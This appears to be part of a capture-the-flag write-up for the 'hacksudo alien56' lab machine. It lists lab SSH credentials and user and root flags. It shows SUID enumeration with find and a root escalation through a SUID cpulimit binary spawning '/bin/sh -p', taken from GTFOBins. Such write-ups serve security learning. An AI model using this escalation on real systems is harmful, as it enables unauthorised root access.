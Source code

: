 #### SSH Credentials
- `hacksudo`:`aliens`

#### User
{% highlight sh %}
  hacksudo@hacksudo:~/Desktop$ cat user.txt
  9fb4c0afce26929041427c935c6e0879
{% endhighlight %}

#### SUID Permissions
- This time ur target is `/home/hacksudo/Downloads/cpulimit`
{% highlight sh %}
  hacksudo@hacksudo:~/Desktop$ find / -perm -u=s -type f 2>/dev/null
  /home/hacksudo/Downloads/cpulimit
  /usr/bin/date
  /usr/bin/pkexec
  /usr/bin/passwd
  ...
{% endhighlight %}


#### GTFOBins | CPULimit to Root
{% highlight sh %}
  hacksudo@hacksudo:~/Desktop$ /home/hacksudo/Downloads/cpulimit -l 100 -f -- /bin/sh -p
  Process 1479 detected
  # id
  uid=1000(hacksudo) gid=1000(hacksudo) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),112(bluetooth),116(lpadmin),117(scanner),1000(hacksudo)
  # cd /root
  # cat root.txt
   _   _            _                  _       
  | | | | __ _  ___| | _____ _   _  __| | ___  
  | |_| |/ _` |/ __| |/ / __| | | |/ _` |/ _ \
  |  _  | (_| | (__|   <\__ \ |_| | (_| | (_) |
  |_| |_|\__,_|\___|_|\_\___/\__,_|\__,_|\___/

      _    _ _            ____   __   
     / \  | (_) ___ _ __ | ___| / /_  
    / _ \ | | |/ _ \ '_ \|___ \| '_ \
   / ___ \| | |  __/ | | |___) | (_) |
  /_/   \_\_|_|\___|_| |_|____/ \___/

  congratulations you rooted hacksudo alien56...!!!
  flag={d045e6f9feb79e94442213f9d008ac48}
  #
{% endhighlight %}
